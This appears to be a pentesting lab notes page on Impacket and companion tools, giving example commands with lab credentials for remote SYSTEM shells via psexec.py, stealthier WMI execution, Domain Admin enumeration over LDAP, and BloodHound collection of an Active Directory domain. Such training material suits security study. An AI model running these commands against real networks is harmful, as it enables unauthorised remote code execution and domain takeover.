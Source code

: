 ```yaml
---
description: The coolest toolkit in the world
---
```


# Impacket Toolkit

## Introduction

* Impacket provides us with many different ways to enumerate, interact, and exploit Windows protocols and find the information we need using Python
* This tool is well maintained and has many contributors

## psexec.py

* This is <mark style="color:yellow;">one of the most useful tools</mark>
* This is a <mark style="color:yellow;">clone of the Sysinternals psexece executable</mark> but works slightly different
* <mark style="color:yellow;">The tool works by creating a remote service by uploading a randomly-named executable to the ADMIN$ share on the host</mark>
* It then registers the service via RPC
* <mark style="color:yellow;">Once established, communication occurs over a pipe, allowing for an interactive shell as SYSTEM on the victim</mark>

```
psexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.125
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## wmiexec.py

* wmiexec.py utilizes a semi-interactive shell where commands are executed through Windows Management Instrumentation or WMI
* It does not drop any files or executables on the target host and generates fewer logs than other modules
* Once connected, it will run the local admin user we connected with&#x20;
  * This is good because it is must stealthier than seeing SYSTEM executing commands

```
wmiexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.5
```

<figure><img src="../../.gitbook/assets/image (1) (7) (1).png" alt=""><figcaption></figcaption></figure>

## Windapsearch.py

* This is a tool that can be used to enumerate users, groups, and computers from a Windows admin by utilizing LDAP queries

### Domain Admins

Enumerate all Domain Admins:

```
python3 windapsearch.py --dc-ip 172.16.5.5 -u forend@inlanefreight.local -p Klmcargo2 --da
```

### Privileged Users

Enumerate all privileged users:

```
python3 windapsearch.py --dc-ip 172.16.5.5 -u forend@inlanefreight.local -p Klmcargo2 -PU
```

## BloodHound.py

Similar to the <mark style="color:yellow;">BloodHound and SharpHound duo</mark>, this is an <mark style="color:yellow;">all-in-one package</mark> that <mark style="color:yellow;">allows a remote attacker with valid domain credentials to be able to enumerate the entire AD domain</mark>!

Help:

```
bloodhound-python -h
```

Collection Method "all":

```
sudo bloodhound-python -u 'forend' -p 'Klmcargo2' -ns 172.16.5.5 -d inlanefreight.local -c all
```

<figure><img src="../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

* After the command completes, you will see four .json files

<figure><img src="../../.gitbook/assets/image (5) (3).png" alt=""><figcaption></figcaption></figure>

* We need to upload these into BloodHound, but the easiest way is to zip them and just place one zip file in BloodHound

```
zip -r domain_BH_info.zip *.json
```

* This will zip up all of the .json files and we can upload this data into BloodHound!

